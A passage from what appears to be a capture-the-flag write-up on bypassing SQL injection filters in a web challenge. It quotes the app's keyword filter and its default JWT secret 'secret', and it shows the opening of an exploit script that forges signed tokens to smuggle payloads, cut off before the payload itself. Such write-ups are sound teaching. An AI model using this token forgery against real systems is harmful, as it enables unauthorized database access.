 ```python
        conn.close()
        return render_template('login.html', error='User created successfully')

```

Mainly, we have two filters for our SQLi payloads:

- At the registration:

```python
username.isalnum()
len(username) < 3
len(username) > 20
```

- At dashboard (from the JWT token username):

```python
filters=[">", "+","=", "<","//", "|","'1", " 1", 
  " true", "'true", " or", "'or", "/or",";", " ", 
  " " ," and", "'and", "/and", "'like", " like", 
  "%00", "null", "admin'","/like", "'where", 
  " where", "/where"]
```

[Bubu](https://albertofdr.github.io/) said that we might try to bruteforce the JWT secret to bypass registration filters and while I thought that the secret might be really hard, but to be honest, there was no chance to get an SQL injection with the _username.isalnum()_ filter. He tried and the secret was "secret" as the default value in the code 😨 (I expect some 32 hexadecimal secret or something):

```python
secret = os.environ.get('SECRET', 'secret')
```

[Bubu](https://albertofdr.github.io/) prepared the exploit script while I was crafting the SQLi payload:

```python
import jwt
import sys
import requests

URL = "http://45.129.40.107:9669/"
SESSION = requests.Session()

def create_user(PAYLOAD):
    params = {
        "username": PAYLOAD,
        "password": "asdasdasdasdasd"
            }
    r = SESSION.post(URL+'signup', params)
    print(r.status_code)

def login(PAYLOAD):
    params = {
        "username": PAYLOAD,
        "password": "asdasdasdasdasd"
            }
    r = SESSION.post(URL+'login', params)
    print(r.status_code)


def exploit(payload):
    cookie = {
        "token": jwt.encode({'username': payload,'password' : 'contraseÃ±a'}, 'secret', algorithm='HS256')
            }
```